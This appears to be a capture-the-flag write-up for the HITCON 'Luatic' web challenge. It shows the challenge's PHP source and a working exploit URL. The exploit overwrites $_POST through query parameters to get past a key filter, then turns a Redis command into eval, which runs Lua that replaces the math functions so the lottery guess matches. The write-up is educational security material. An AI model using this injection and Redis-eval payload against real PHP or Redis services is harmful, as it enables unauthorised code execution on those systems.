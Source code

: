# pwnphofun team
# Description
Author of challenge: [@orange_8361](https://twitter.com/orange_8361)
```
Luatic
Win the jackpot!
54.250.242.183
```
# luatic.php
```php
<?php
    /* Author: Orange Tsai(@orange_8361) */
    include "config.php";

    foreach($_REQUEST as $k=>$v) {
        if( strlen($k) > 0 && preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)  )
            exit('Shame on you');
    }

    foreach(Array('_GET','_POST') as $request) {
        foreach($$request as $k => $v) ${$k} = str_replace(str_split("[]{}=.'\""), "", $v);
    }

    if (strlen($token) == 0) highlight_file(__FILE__) and exit();
    if (!preg_match('/^[a-f0-9-]{36}$/', $token)) die('Shame on you');

    $guess = (int)$guess;
    if ($guess == 0) die('Shame on you');

    // Check team token
    $status = check_team_redis_status($token);
    if ($status == "Invalid token") die('Invalid token');
    if (strlen($status) == 0 || $status == 'Stopped') die('Start Redis first');

    // Get team redis port
    $port = get_team_redis_port($token);
    if ((int)$port < 1024) die('Try again');
    
    // Connect, we rename insecure commands
    // rename-command CONFIG ""
    // rename-command SCRIPT ""
    // rename-command MODULE ""
    // rename-command SLAVEOF ""
    // rename-command REPLICAOF ""
    // rename-command SET $MY_SET_COMMAND
    $redis = new Redis();
    $redis->connect("127.0.0.1", $port);
    if (!$redis->auth($token)) die('Auth fail');

    // Check availability
    $redis->rawCommand($MY_SET_COMMAND, $TEST_KEY, $TEST_VALUE);
    if ($redis->get($TEST_KEY) !== $TEST_VALUE) die('Something Wrong?');

    // Lottery!
    $LUA_LOTTERY = "math.randomseed(ARGV[1]) for i=0, ARGV[2] do math.random() end return math.random(2^31-1)";
    $seed  = random_int(0, 0xffffffff / 2);
    $count = random_int(5, 10);
    $result = $redis->eval($LUA_LOTTERY, array($seed, $count));

    sleep(3); // Slow down...
    if ((int)$result === $guess)
        die("Congratulations, the flag is $FLAG");
    die(":(");
```
# Team token
```
Token: 7a70261c-xxxx-xxxx-xxxx-7a8a84c655f1
```
# Timeline
- Setup Docker container (of course :v)
- Clear all filters/tests/replacements to find the main solution to bypass lua `math.random` function and win the jackpot
- Bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test
- Bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement
- Won the jackpot

# Final works
- To win the jackpot, we want to reset the `math.random` function by `math.random = function () returns 123 end`
so `math.random()` will return `123`, equal to `guess` we have sent
- To bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test, we use `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=set&_POST[TEST_KEY]=1&_POST[TEST_VALUE]=1`
so `$_POST` variable will be overwritten to `['MY_SET_COMMAND' => 'set', 'TEST_KEY' => '1', 'TEST_VALUE' => '1']`
and will be extracted to php variables
- To bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement, we use `for k, v in pairs(math) do rawset(math, k, function() return 123 end) end` to reset `math.random` function
- Final payload: `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=eval&_POST[TEST_KEY]=for k, v in pairs(math) do rawset(math, k, function() return 123 end) end&_POST[TEST_VALUE]=0`

and got the Flag: `hitcon{Lua^H Red1s 1s m4g1c!!!}`

Please follow for more informations:
- https://github.com/orangetw/My-CTF-Web-Challenges#luatic
- https://redis.io/commands/eval

